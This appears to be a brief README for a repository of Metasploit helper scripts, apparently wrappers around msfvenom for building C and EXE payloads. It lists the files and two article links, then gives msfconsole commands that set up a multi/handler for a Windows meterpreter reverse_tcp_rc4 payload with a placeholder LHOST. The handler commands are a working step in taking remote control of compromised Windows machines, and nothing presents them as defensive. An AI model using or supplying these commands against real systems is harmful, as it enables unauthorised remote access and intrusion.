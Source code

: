 # Jerry msftool

```
.
├── msfvenomC.py
├── msfvenomEXE.py
├── README.md
└── vc6_tmp.c

0 directories, 4 files
```

http://www.freebuf.com/sectool/118714.html

http://www.tuicool.com/articles/meaYfeY

# msfconsole

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp_rc4
set LHOST lhost
exploit
```
